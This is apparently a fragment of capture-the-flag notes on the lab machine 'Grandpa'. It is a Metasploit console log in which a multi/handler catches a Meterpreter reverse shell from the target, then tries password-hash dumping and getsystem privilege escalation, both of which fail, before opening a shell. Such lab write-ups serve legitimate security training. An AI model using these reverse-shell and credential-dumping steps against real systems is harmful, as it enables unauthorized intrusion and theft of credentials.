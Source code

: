 ![](Maszyny/Windows/Grandpa/Pasted%20image%2020210812212403.png)

msf6 exploit(multi/handler) > set LPORT 9003
LPORT = 9003
msf6 exploit(multi/handler) > set LHOST tuno
LHOST = 10.10.14.19
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.19:9003
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.19:9003 → 10.10.10.14:1035) at 2021-08-12 18:07:12 +0200
meterpreter > hashdump
priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > getsystem
priv_elevate_getsystem: Operation failed: This function is not supported on this system. The following was attempted:
Named Pipe Impersonation (In Memory/Admin)
Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > getuid
Server username: NT AUTHORITY NETWORK SERVICE
meterpreter > shell
